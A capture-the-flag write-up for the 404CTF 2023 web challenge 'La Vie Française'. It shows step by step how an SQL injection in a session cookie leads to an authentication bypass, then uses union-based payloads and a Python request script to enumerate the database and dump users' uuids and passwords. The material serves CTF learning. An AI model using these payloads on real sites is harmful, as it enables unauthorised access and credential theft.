 ```yaml
---
title: CTFs | 404CTF2023 | Web | La Vie Française
author: Stillwolfing
date: 2023-06-05
categories: [CTFs, 404CTF2023, Web]
tags: [CTFs, 404CTF2023, Web, Sqli]
permalink: /CTFs/404CTF2023/web/la_vie_francaise
---
```


## Context

![context](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/context.png)


By clicking the link, we end on the journal's website:

![home](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/home.png)

Let's try to postulate:

![register](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/register.png)

It's a register page. We register with a random username, "bipboup".

We are redirected to a login page:

![login](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/login.png)

After connecting, we are on our account page:

![account](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/account.png)

We have got a cookie named "uuid" which identify us on the website.

![cookie](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/cookie.png)

I could not decrypt the cookie. I thought that maybe the cookie is stored in the database and the username is retrieved with an sql query that could look like.

```sql
select username from users where uuid = <uuid>;
```

Maybe the way the sql query is made is vulnerable to sql injections.

So I tried this:

I added "' or 1=1-- -" after the my cookie to try to select the first row.

![poc](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/poc.png)

It worked, I'm connected as Jacques Rival.

I created a script to craft my requests:

```python
import requests
from bs4 import BeautifulSoup

url = "https://la-vie-francaise.challenges.404ctf.fr/account"
sep = "0x207c20"

payload = f""

cookies = {'uuid': payload}

r = requests.get(url, cookies=cookies).text
r = r.replace(",", "\n")

if "Connexion" in r:
    print("Courage, tu y es presque !")
else:
    soup = BeautifulSoup(r, 'html.parser')
    print(soup.find("h3").text)
    print("Bravo !")

```

We just have to replace the payload with our payload.

I tried a union based sqli. I tried a request like:

```sql
' UNION SELECT 1-- -
```

I increased the number of row until I reach the good number of row of the query.

with:
```sql
' UNION SELECT 1, 2, 3-- -
```

I get this output:

![union_poc](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_poc.png)

Ok so we need 3 arguments and the first one is displayed on the screen.

Let's try to get the version of the database:

```sql
' UNION SELECT version(), 2, 3-- -
```

![union_version](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_version.png)

The engine is a MariaDB.

Let's get the tables under this database(There are more like system tables and other ones could be created).

```sql
' UNION SELECT group_concat(table_name), 2, 3 from information_schema.tables where table_schema=database()-- -
```

![union_table](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_table.png)

There is a table user. We need to know the columns of the table:

```sql
' UNION SELECT group_concat(column_name), 2, 3 from information_schema.columns where table_name='users'-- -
```

![union_columns](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_columns.png)

Now we can dump the table:

```sql
' UNION SELECT group_concat(uuid, {sep} , username, {sep}, password), 2, 3 from users-- -
```

![union_dump](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_dump.png)

We have madelaineforestier's password and uuid. We can connect using both.

Let's use the uuid:


![madelaine_forestier_account](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/madelaine_forestier_account.png)

On the admin panel:

![flag](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/flag.png)

We've got the flag 🥳 !!

I hope you learned something through this writeup 😉

Oh wait, I almost forgot to flex !

![first_blood](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/first_blood.png)


